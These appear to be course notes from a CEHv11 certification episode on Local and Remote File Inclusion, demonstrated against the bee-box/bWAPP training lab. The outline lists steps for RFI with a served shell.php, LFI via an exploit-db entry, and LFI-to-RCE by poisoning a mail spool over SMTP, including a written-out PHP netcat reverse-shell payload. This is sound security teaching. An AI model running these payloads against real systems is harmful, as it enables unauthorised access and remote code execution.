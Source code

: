     Filename: eccouncil-ceh31250-v11-14-6-1-lfi-rfi.md
    Show Name: CEHv11 (312-50)
    Topic Name: Web Application Hacking - Hacking Web Applications
    Episode Name: LFI/RFI ================================================================================

LFI/RFI
Objectives:

    Define Local and Remote File Inclusion vulnerabilities
    Demonstrate performing LFI and RFI attack techniques

    What is LFI and RFI?
        Local File Inclusion
        Remote File Inclusion

    RFI seem dangerous. Can we see that in action?
        Create shell.php file and serve with Python
            Start listener
                Browse to http://bee-box/bWAPP/rlfi.php
                    Choose a language and submit
                        Modify URL for RFI to Parrot/shell.php
                            Check listener :)

    Can you show us a few quick examples of an LFI?
        sqlitemanager is vulnerable
            http://bee-box/sqlite
                Google for sqlitemanager exploit
                    Exploit-db has the hit
                        Tamper with cookie
                            Use Burp Repeater for the request to /sqlite
                                Add parameters from exploit-db
                                    Get file :)

    Can you get system access with LFI like RFI?
        'Find' LFI here http://bee-box/bWAPP/rlfi.php
            Look for ability to read mail from /var/mail/username
                'Find' mail for www-data
                    nmap -T4 -p 25 bee-box
                        nc -nv bee-box 25
                            EHLO billy
                            MAIL FROM: sales@pwned.com
                            RCPT TO: www-data
                            DATA
                                Add a newline/carriage return
                                Create a PHP shell
                                    <?php $shelly = shell_exec('nc -nv -e /bin/bash bee-box 9999');?>
                                Add a newline/carriage return
                                End message with a period(.)
                            QUIT
                Start listener
                Use LFI to include mail for www-data
                Check listener :)
